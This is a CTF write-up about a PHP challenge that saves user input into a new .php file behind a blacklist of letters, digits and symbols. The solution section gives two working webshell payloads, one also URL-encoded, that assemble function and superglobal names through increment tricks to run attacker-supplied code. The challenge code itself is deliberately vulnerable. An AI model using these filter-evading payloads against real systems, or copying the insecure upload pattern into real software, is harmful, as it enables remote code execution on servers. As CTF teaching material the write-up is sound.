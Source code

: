# Challenge
```php 
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);
if(!isset($_GET['c'])){
   show_source(__FILE__);
   die();
}
function rand_string( $length ) {
   $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";    
   $size = strlen( $chars );
   $str = '';
   for( $i = 0; $i < $length; $i++ ) {
	   $str .= $chars[ rand( 0, $size - 1 ) ];
   }
   return $str;
}
$data = $_GET['c'];
$black_list = array(' ', '!', '"', '#', '%', '&', '*', ',', '-', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '<', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '\\', '^', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '|', '~');
foreach ($black_list as $b) {
   if (stripos($data, $b) !== false){
	   die("WAF!");
   }
}
$filename=rand_string(0x20).'.php';
$folder='uploads/';
$full_filename = $folder.$filename;
if(file_put_contents($full_filename, '<?php '.$data)){
   echo "<a href='".$full_filename."'>WebShell</a></br>";
   echo "Enjoy your webshell~";
}else{
   echo "Some thing wrong...";
}
```

# Solution
见Reference的文章。

payload1：
```php
<?php
$_='';$_[+$_]++;
$_=$_.'';
$__=$_[+''];
$_ = $__;
$___=$_;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;  
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$_=$$____;
$___($_[_]);
```

`c=$_='';$_[%2b$_]%2b%2b;$_=$_.'';$__=$_[%2b''];$_=$__;$___=$_;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$____='_';$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$_=$$____;$___($_[_]);`



payload2:

```php 
<?php
$_=[].[];
$__='';
$_=$_[''];
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // E
$_=++$_;
$_=++$_;
$__=$_.$__; // GE
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // GET var_dump(${'_'.$__}[_](${'_'.$__}[__])); // $_GET["_"]($_GET["__"]);
```
# Refference 
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)
+ [php特殊webshell(无数字,字母,位运算)](http://www.jianshu.com/p/d23d4b1358f2)
+ [一道好玩的webshell题](https://chybeta.github.io/2017/07/15/%E4%B8%80%E9%81%93%E5%A5%BD%E7%8E%A9%E7%9A%84webshell%E9%A2%98/)